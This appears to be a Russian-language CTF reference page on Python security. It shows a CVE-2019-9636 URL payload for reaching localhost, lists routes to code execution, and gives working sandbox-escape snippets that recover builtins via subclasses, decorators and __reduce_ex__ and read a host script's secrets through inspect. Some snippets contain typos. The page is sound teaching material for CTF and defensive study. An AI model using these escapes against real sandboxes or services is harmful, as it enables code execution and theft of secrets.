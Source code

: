 # Python Security

## CVEs

[CVE-2019-9636](https://www.cvedetails.com/cve/CVE-2019-9636/) - (Python 2.7.16/3.7.2 <= ) пример эксплуатации: таск [AquaWorld](https://github.com/joshdabosh/writeups/tree/master/2020-SharkyCTF), SharkyCTF 2020: кратко, ошибка в парсинге unicode в url, в следствие чего можно было обратиться к локальному ресурсу:&#x20;

```
http://aquaworld.sharkyctf.xyz/admin-query\uFF03@127.0.0.1?flag=flag
```

## RCE

Способы добиться исполнения кода на Python:

* Через десер в pickle
* Если используется subprocess
* Через File Upload, если можем писать в директорию с модулями. Если успеем переписать какой-то модуль до его первого импорта, то будет RCE. Mitigation: использовать zipap и определять директории, где могут находиться модули через sys.path

## Python Sandbox

### Basic Tricks

#### Get any string

```python
# 1
bytes([20, 22, 24, 25]).decode()

# 2
func = lambda somestring: _
str_Somestring = func.__code__.co_varnames[0]
```

#### Перенос строки без переноса строки

В Python возврат каретки `\r` то же самое, что и перенос строки `\n`.&#x20;

#### unicode

Интерпретатору python все равно на unicode символы, он их попытается привести к ascii:

![](<../../../.gitbook/assets/изображение (5).png>)

### Работа с типами

#### Создание класса

Пусть наш код запускается следующим образом (у нас ограничен `globals`)

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

Без `__build_class__` в `builtins` нельзя создать класс:

```python
myfunc = lambda test:_        # Создаем функцию
gobals = myfunc.__globals__   # Получаем глобальные переменные скрипта
builtins = globals['__builtins__']  # Получаем ссылку на словарь, в котором определены все из пакета builtins (или не определены)
builtins['__build_class__'] = lamda *x: 3  # Здесь может быть любая функция

class C: pass  # теперь этот код не будет вызывать ошибки, если builtins нет в globals переменных
```

#### Декораторы и вызов функций через них

Декораторы — это функции, которые в питоне могут быть представлены почти к чему угодно. Например, фунциям. С помощью декораторов можно организовать вызов какой-либо функции, не используя круглых скобок. Ограничение: вызвать можно только функции, которые принимают 1 аргумент (хорошо, что некоторые функции настроены на непозиционные аргументы или на кортежи аргументов). Пример:

```python
result = object()

returnedValues = []

@returnedValues.append
@result.__class__.__subclasses__
class X: pass
```

Другая форма вызова функции через декораторы:

```python
# 1
a = f(b)

# 2
f = lambda x: x + 1

@f
@lambda _:2  # b=2
class a:0    # a=3
```

### Sandboxes

#### builtins через subclasses

Зачем нужен builtins? — это ключ к свободному выполнению кода в Python и за пределами контекста Python.&#x20;

```python
result = SomeObjectClassFromParentContext
builtins = [x for x in result.__class__.__subclasses__() if x.__name__ == "catch_warnings"][0]()._module.__builtins__
```

#### builtins из ничего

Допустим вас запустили в контексте, где нет builtins. Как до него добраться без `__subclasses__()`и не имея ни одного объекта из внешнего контекста? (все методы во всех гайдах опираются на метод subclasses)

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

Выбираемся (здесь как-то связано с pickle; пример без использования круглых скобок => без возможности вызова функций обычными способами):

```python
builtins['__build_class__'] = lamda *x: 3
result = ''
x = []

# ''.__reduce_ex__(3)
@x.append
@result.__reduce_ex__
class X:
  pass
  
# x — [(<function __newobj__ at 0x108e7b160>, (<class 'str'>, ''), None, None, None)]
builtins = x[0][0].__globals__['__builtins__']
```

reduce\_ex принимает номер версии протокола pickle. Прием выше будет работать с протоколом 2 и выше.

#### Получаем доступ ко всем переменным в скрипте из builtins

Пример, что можно сделать, через builtins – например, получить доступ к переменным основного контекста. Пусть наш код запускается следующим способом:

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
SECRET = 'it\'s secret'     # З
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

И пусть мы уже получили каким-либо способом builtins. Тогда, через пакет inspect мы можем получить доступ ко всему стеку вызова основного скрипта:

```python
Import = builtins['__import__']
stack = Import('inspect').stack()

for frameInfo in stack:
    if 'SECRET' in frameInfo.frame.f_locals:
        print(frameInfo.frame.f_locals['SECRET'])  # it's secret
```

### Links & Papers

HackTricks Gitbook: [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Таск [Эмиля Лернера](https://t.me/neexemil) на выход из песочницы python и его решение: [https://gist.github.com/Invizory/36b5c4e037548b940c831efe350162d2](https://gist.github.com/Invizory/36b5c4e037548b940c831efe350162d2)
